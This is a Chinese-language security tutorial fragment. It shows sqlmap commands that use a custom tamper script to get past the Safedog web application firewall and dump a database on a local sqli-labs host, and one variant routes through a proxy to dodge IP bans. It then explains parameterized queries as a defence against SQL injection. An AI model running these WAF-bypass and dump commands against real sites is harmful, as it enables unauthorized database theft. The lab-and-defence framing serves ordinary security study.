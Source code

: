 # 安全狗WAF绕过

## 「--identify-waf」 
识别waf，貌似不能用了。。。

## skip-waf 
- sqlmap自带的waf绕过
- 脚本使用，将脚本(bypassDog2.py)传入到这个路径/usr/share/sqlmap/tamper/（攻击脚本具有危害性，不予提供，以下仅供参考，也可以使用kali自带的sqlmap攻击脚本进行测试）
- 指定脚本

```
--tamper "bypassDog.py"
```

- 一个完整sqlmap使用脚本示例

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --tamper "bypassDog2.py"  --level 5 --random-agent  --dump
```

- 当然，如果网站使用了「ip封禁机制」，可以使用代理或者「代理池」

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --tamper "bypassDog2.py"  --level 5 --random-agent --proxy='http://xxx.xxx.xxx.xxx:端口号' --dump
```

> 代理服务请自行解决（狗头保命）

# sql注入的预防

##  使用参数化查询

- 「参数化查询」是预防SQL注入的最有效方法之一。通过将SQL代码和查询参数分开，可以防止恶意SQL代码的执行。大多数现代数据库接口都支持参数化查询。

- 「示例（Python 使用 psycopg2 连接 PostgreSQL）」：

```
import psycopg2  
  
# 连接数据库  
conn = psycopg2.connect("dbname=test user=postgres")  
cur = conn.cursor()  
  
# 使用参数化查询  
user_input = "O'Reilly"  # 尝试注入的输入  
cur.execute("SELECT * FROM users WHERE username = %s", (user_input,))  
rows = cur.fetchall()  
  
for row in rows:  
    print(row)  
  
cur.close()  
conn.close()
```
